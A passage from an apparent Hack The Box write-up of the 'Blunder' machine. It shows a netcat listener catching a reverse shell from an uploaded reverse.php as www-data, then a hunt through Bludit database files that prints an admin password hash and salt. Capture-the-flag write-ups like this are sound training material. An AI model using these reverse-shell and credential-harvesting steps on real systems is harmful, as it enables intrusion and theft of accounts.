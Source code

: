 

Then with our netcat listener up we visit http://10.10.10.191/bl-content/tmp/reverse.php

```
hilbert@kali:~/HTB/Machines/Blunder$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.13.31] from (UNKNOWN) [10.10.10.191] 44438
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Whichever method you choose, we now have access as user **www-data**.

One of the things we could have done when looking around a bit more before jumping into brute forcing was explore the structure of the webpage after we learned Bludit was running on it. We would have seen that there was a databases directory

![databases](/assets/img/walkthroughs/blunder_databases.png)

We had to use a password to login, and those have to be stored somewhere, so this seems like a good place to look now that we have access. Using the find command and outputting errors to /dev/null so our screen isn't a mess of "Permission denied"'s we see

```
www-data@blunder:/home$ find / -name databases 2>/dev/null
/var/www/bludit-3.10.0a/bl-content/databases
/var/www/bludit-3.9.2/bl-content/databases
```

Interesting, it looks like a newer version of Bludit is also installed. Checking the 3.9.2 version first, if we look at **users.php** in the database directory, we see entries for an admin and fergus.

```
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
<...>
    },
    "fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
```